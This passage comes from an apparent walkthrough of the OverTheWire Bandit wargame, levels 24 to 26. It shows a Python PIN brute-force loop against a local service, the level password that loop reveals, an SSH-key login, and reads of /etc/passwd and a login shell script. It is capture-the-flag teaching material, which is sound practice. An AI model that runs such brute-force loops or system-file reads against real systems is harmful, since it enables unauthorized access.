     print "Connection closed."
    s.close()

import sys

passw = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
count = 0
while (1):
    trypass = '%s %04d' % (passw, count)
    if (netcat('localhost', 30002, trypass)):
        break
    count += 1
{{< / highlight >}}

Some time passes..... 

{{< highlight console >}}
no: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5668
'Correct!\nThe password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG\n\nExiting.\n'
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5669
bandit24@melinda:~$ 
{{< / highlight >}}

# Level 25 -> 26 #

[Level 25](http://overthewire.org/wargames/bandit/bandit26.html)

Ok, so first we need to see what happens when we log in as Bandit26

{{< highlight console >}}
bandit25@melinda:~$ ssh -i bandit26.sshkey bandit26@localhost
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
{{< / highlight >}}

Hrm... ok, let's check the shell bandit26 uses:

{{< highlight console >}}
bandit25@melinda:/home/bandit25$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@melinda:/home/bandit25$ cat /usr/bin/showtext
#!/bin/sh

more ~/text.txt
exit 0
